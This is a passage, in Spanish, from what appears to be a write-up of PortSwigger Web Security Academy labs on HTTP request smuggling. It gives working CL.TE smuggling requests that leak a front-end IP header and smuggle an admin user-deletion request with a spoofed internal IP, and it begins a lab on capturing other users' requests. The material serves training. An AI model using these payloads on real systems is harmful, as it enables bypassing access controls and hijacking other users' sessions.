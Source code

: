 #### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater y mantener el salto de línea del final):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 52
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 150

search=asd

```

En la segunda response, arriba del input de búsqueda debería aparecer algo como:

```
0 search results for 'POST / HTTP/1.1
X-vDTCOL-Ip: 181.117.13.38
Host: ac0d1fb51fe4661f80e980ba003200cb.web-security-academy.net
Content-Length: 52
Transfer-Enco'
```

Enviar 2 veces la siguiente request, reemplazando el header X-\*\*\*\*\*\*-Ip con el obtenido en la request anterior:

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 98
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-******-Ip: 127.0.0.1
Content-Length: 30

foo
```

### [Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

#### Descripción:

1. Realizar un comentario en cualquier post, observar la request y copiar el valor de la cookie de sesión y del csrf token.
2. Realizar la siguiente request reemplazando los valores de la cookie de sesión y del csrf token:
